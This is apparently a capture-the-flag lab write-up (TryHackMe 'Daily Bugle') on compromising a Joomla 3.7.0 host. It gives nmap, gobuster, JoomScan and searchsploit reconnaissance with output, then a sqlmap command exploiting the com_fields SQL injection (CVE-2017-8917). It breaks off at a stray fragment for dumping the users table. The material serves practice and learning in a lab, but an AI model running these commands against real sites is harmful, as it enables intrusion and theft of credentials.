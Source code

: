 # Daily Bugle
* Compromise Joomla CMS account using SQLi, crack hashes and escalate privileges by taking advantage of "yum".
## Scan using Nmap
```
nmap -Pn -O -p- -sV -sC -oN TARGET_IP_scan.nmap TARGET_IP
```
  * `-sC` scan with default NSE scripts.
    * Considered useful for discovery and safe.
```
Starting Nmap 7.60 ( https://nmap.org ) at 2024-03-01 23:46 GMT
Warning: 10.10.208.89 giving up on port because retransmission cap hit (2).
Host is up (0.00037s latency).
Not shown: 65527 closed ports
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (EdDSA)
80/tcp    open     http       Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
1157/tcp  filtered iascontrol
3306/tcp  open     mysql      MariaDB (unauthorized)
17194/tcp filtered unknown
36586/tcp filtered unknown
62839/tcp filtered unknown
65431/tcp filtered unknown
MAC Address: 02:B7:92:4A:42:3F (Unknown)
Aggressive OS guesses: Linux 3.13 (95%), Linux 3.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (94%), Linux 3.16 (94%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 3.10 (92%), Linux 3.19 (92%), Linux 3.2 - 4.8 (92%), Linux 3.4 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 195.91 seconds
```
### Use GoBuster to search for hidden directories.
```
gobuster dir --url http://TARGET_IP/ -w /usr/share/wordlists/dirb/common.txt > gobuster.txt

[snip...]
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/administrator (Status: 301)
/bin (Status: 301)
/cache (Status: 301)
/cgi-bin/ (Status: 403)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/robots.txt (Status: 200)
/index.php (Status: 200)
/templates (Status: 301)
/tmp (Status: 301)
[snip...]
```
* Browse to "/administrator" directory reveals Joomla login screen.

![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/078787b0-7303-4d8a-aac2-6bc911135f12)
  * Default Joomla username admin with no password credentials do not work.
* All other Gobuster discovered directories return no information.
* Internet search found [OWASP JoomScan](https://github.com/OWASP/joomscan) Joomla! Vulnerability Scanner.
```
git clone https://github.com/rezasp/joomscan.git
perl joomscan/joomscan.pl -u http://TARGET_IP
```
  * Scan returned Joomla version 3.7.0.
### Search searchsploit for exploits affecting Joomla! 3.7.0
```
searchsploit joomla 3.7.0
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection    | php/webapps/42033.txt
```
* [Joomla! 3.7.0 - 'com_fields' SQL Injection](https://www.exploit-db.com/exploits/42033).
> Using Sqlmap: `sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]`.
* Exploit associated with [CVE-2017-8917](https://nvd.nist.gov/vuln/detail/CVE-2017-8917).
> SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers to execute arbitrary SQL commands via unspecified vectors.
### Exploit Joomla! database using SQLMap method
```
sqlmap -u "http://TARGET_IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
[snip...]
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
[snip...]
sqlmap got a 303 redirect to 'http://10.10.13.128:80/index.php/component/fields/'. Do you want to follow? [Y/n]  n
[snip...]

```

-D joomla -T '#__users' --dump
